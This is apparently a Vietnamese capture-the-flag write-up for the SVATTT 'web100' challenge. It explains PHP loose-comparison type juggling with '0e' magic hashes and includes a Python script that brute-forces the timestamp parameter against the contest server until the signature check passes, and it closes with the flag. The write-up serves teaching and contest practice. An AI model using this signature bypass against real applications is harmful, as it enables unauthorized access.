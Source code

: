 
http://readfile.svattt.org:8888/web100.php.bak</br>
Khi mà bắt đầu giải quyết vấn đề này, thực sự khá khó khăn khi chỉ nhìn về mỗi biến $secretkey. Cho đến khi chú ý đến $sig == $realsig. Một thứ gì đó gợi nhớ đến PHP type juggling. Và chính xác đó là Comparison Issues…Một trong những lỗi cơ bản trong PHP.
</br>
Có thể giải thích điều này như sau:
</br>
Nếu một chuỗi được chuyển đổi sang một phao sau đó chúng ta có thể kết hợp nhiều. Bất cứ thứ  gì mà sau regex của 0+[eE]\d + sẽ cho kết quả là 0. Mọi người sẽ nghĩ rằng 1[eE]\d sẽ cũng làm việc như 1 cũng như với bất cứ thứ gì được cho là 1, nhưng đây không phải là cách, strtod () chức năng thực sự hoạt động. Bây giờ, chúng ta hãy xem xét một số ví dụ so sánh để nhìn thấy điều này làm việc:
</br>
$input = $_GET['input'];</br>
if ($input == "0e94323") {</br>
        print("$input == 0e94323 ");</br>
}</br>
if ($input == "00e19384") {</br>
        print("$input == 00e19384 ");</br>
}</br>

localhost/test.php?input=0 </br>

0 == 0e94323 </br>
0 == 00e19384</br>

Nhớ lại một điều việc sử dụng phép so sánh với “==” trong php. Bạn có thể nhìn vào bảng sau được cung cấp bởi Gynyael Coldwing với link https://docs.google.com/spreadsheets/d/1oWsmTvEZcfgc_1QkBczNGA3Gcffg_pmgKcak7iZldUw/pub?output=html .
</br>Bây giờ hãy nhìn vào biến $sig = 0e462097431906509019562988736854. Biến này được khai báo ngẫu nhiên với một mã hash 32 ký tự bắt đầu với số 0. Khi sử dụng nó so sánh với một biến mang mã hash, chúng ta sẽ đạt được giá trị TRUE như đã phân tích ở trên.
</br>def work():
</br>	while True:
</br>		url = 'http://readfile.svattt.org:8888/web100.php' #filename=flag.php&timestamp=13371337&sig=d7a52c3ed325ef19'
</br>		payload = {'filename': filename, 'timestamp': random.randint(0, 10000000), 'sig': sig }

</br>		r = requests.get(url, params=payload)
</br>		text = r.content

</br>		if 'Invalid Signature!' not in text:
</br>			print text 
</br>			break
</br>Nó thực sự là một kĩ thuật bruteforce với tham số timestamp cho đến khi ta đã được một mã hash có thể so sánh với $sig nhập vào và đạt được giá trị là TRUE với kí tự 0.
</br>Got it.
![web](https://cloud.githubusercontent.com/assets/23380906/20181266/04b8ebc8-a790-11e6-8dc2-b1ac7d2a3cd1.png)
Flag: SVATTT{N0_m0r3_h4sh_3xtens10n_4tt4ck}
